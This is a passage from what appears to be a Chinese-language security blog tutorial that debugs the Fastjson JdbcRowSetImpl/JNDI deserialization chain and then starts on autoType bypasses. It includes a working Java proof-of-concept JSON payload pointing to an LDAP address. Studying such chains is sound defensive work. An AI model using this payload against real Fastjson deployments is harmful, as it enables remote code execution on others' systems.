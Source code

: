     public class fastjonTest2 {
        public static void main(String[] args) {
            String exp = "{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\":\"ldap://localhost:1389/#EXP\", \"autoCommit\":true}";
            JSON.parse(exp);
        }
    }
    
    

![image-20220413215221580](https://img2022.cnblogs.com/blog/2804790/202204/2804790-20220414173255550-379878137.png)

### 1.4、利用链调试

这次我们就直接跳过fastjson的利用链，因为在TemplateImpl中已经详细跟进过，我们直接进入到 jdbcRowImpl，在setDataSourceName方法打下断点，其实看调用栈也是可以看出，前半部分是跟TemplatesImpl链是一样的，一个调用的是getOutputproperties，一个是setDataSourceName。

![image-20220413220024927](https://img2022.cnblogs.com/blog/2804790/202204/2804790-20220414173257075-185914512.png)

我们继续看，先判断DataSourceName的是否为null，不为就调用父类方法赋值，我们也跟进去看看

![image-20220413220332116](https://img2022.cnblogs.com/blog/2804790/202204/2804790-20220414173257635-653535091.png)

可以看到就是简单的dataSource赋值，然后就到setAutoCommit

![image-20220413220512105](https://img2022.cnblogs.com/blog/2804790/202204/2804790-20220414173258037-3498650.png)

![image-20220413220543040](https://img2022.cnblogs.com/blog/2804790/202204/2804790-20220414173258367-426207824.png)

就是判断this.conn是否为null，null就调用this.connect()方法赋值，我们也跟进去看看

![image-20220413220656258](https://img2022.cnblogs.com/blog/2804790/202204/2804790-20220414173258782-1195667129.png)

跟进来发现，获取上下文然调用lookup方法，参数就是我们获取我们前面赋值dataSource

![image-20220413220903770](https://img2022.cnblogs.com/blog/2804790/202204/2804790-20220414173259242-1123997561.png)

然后就成功执行代码了

![image-20220413221407002](https://img2022.cnblogs.com/blog/2804790/202204/2804790-20220414173300529-1083349031.png)

2、漏洞绕过
------

前面的两条链都是的Fastjson版本都是1.2.22-1.2.24,后面就是绕过了。

### 2.1、Fastjson:1.2.25-1.2.41

我们先把依赖版本改成1.2.25,再次执行poc发现不行了，报错，说autotype不支持，我们比较一下两个包

![image-20220414130118274](https://img2022.cnblogs.com/blog/2804790/202204/2804790-20220414173301786-205010103.png)

我们在TemplatesImpl时，看过这段代码,this.config是ParserConfig，而ref是templatesImpl，他用checkAutoType检查了ref,我们看看他怎么检查的，我们在此处打下断点
